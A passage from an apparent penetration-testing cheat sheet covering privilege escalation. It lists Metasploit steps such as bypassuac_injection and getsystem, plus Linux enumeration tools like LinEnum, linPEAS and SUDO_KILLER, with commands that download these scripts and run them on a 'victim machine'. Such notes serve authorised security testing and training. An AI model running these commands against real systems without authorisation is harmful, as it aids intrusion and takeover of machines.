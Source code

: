         -   Use \"local/exploit/suggester\" module

        -   post exploitation module \<windows/local/bypassuac\_injection\>

        -   Meterpreter \> getsystem

    -   linENUM :

        -   git clone <https://github.com/rebootuser/LinEnum>

        -   ./linENUM.sh

        -    ./LinEnum.sh -s -k keyword -r output  -e /tmp/ -t

    -   Linux-exploit-suggester

        -    git clone   <https://github.com/mzet-/linux-exploit-suggester.git>

        -    ./linux-exploit-suggester.sh   

    -   linuxprivchecker

        -    git clone <https://github.com/reider-roque/linpostexp/blob/master/linuprivchecker.py>

        -   wget <http://securitysift.com/download/linuxprivchecker.py>

        -   python linuxprivchecker.py \>output.txt   //run this script on the victim machine to do some recon to see what can be used to escalate the privileges

    -   Unix-priv-check

        -   Git clone https://github.com/pentestmonkey/unix-privesc-check.git

        -   ./Unix-privesc-check    

    -   linPEAS

        -   wget <https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh>

        -   ./linpeas.sh

    -   PE-LINUX :

        -   git clone   <https://github.com/WazeHell/PE-Linux.git>

    -   LinuxSmartEnumeration

        -   wget \"<https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh>\" -O lse.sh

        -   ./lse.sh -l1 \# shows interesting information that should help you to privesc

        -   ./lse.sh -l2 \# dump all the information it gathers about the system

    -   Sudo-killer

        -   Git clone <https://github.com/TH3xACE/SUDO_KILLER.git>

        -   ./sudo\_killer.sh -c -e -r report.txt -p /tmp

    -   Beroot

        -   Wget <https://github.com/AlessandroZ/BeRoot/tree/master/Linux>
